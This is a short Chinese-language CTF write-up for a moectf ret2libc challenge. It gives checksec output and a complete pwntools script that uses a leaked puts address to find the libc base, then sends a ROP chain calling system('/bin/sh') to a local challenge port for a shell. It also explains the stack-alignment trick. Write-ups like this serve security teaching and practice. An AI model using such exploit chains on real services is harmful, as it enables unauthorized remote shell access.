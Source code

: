 # moectf 这是什么？libc!

by Maple

***ret2libc***

直接泄露给我们了puts的地址，还有libc在附件里，直接用就行

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/moectf/prelibc/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

开启了NX和PIE，确实libc好做

```python
from pwn import *

context(os="linux", arch="amd64")

#io = process('./pwn')
io = remote('127.0.0.1',58265)
libc = ELF("./libc.so.6")

io.recvuntil(b"0x")
libc.address = int(io.recv(12), 16) - libc.sym["puts"]

payload = cyclic(9) + flat([
        libc.search(asm("pop rdi; ret;")).__next__() + 1, # 即 `ret`，用于栈指针对齐
        libc.search(asm("pop rdi; ret;")).__next__(),
        libc.search(b"/bin/sh\x00").__next__(),
        libc.sym["system"],
])
io.sendafter(b">", payload)

io.interactive()
```

*直接用的官方wp*

这里解释一点，`libc.search(asm("pop rdi; ret;")).__next__() + 1`这里，本身libc搜到了`pop rdi； ret;`的地址，就返回为首地址，也就是`pop rdi`处，再加1就到了ret处，通过ret操作补全一下没对齐的栈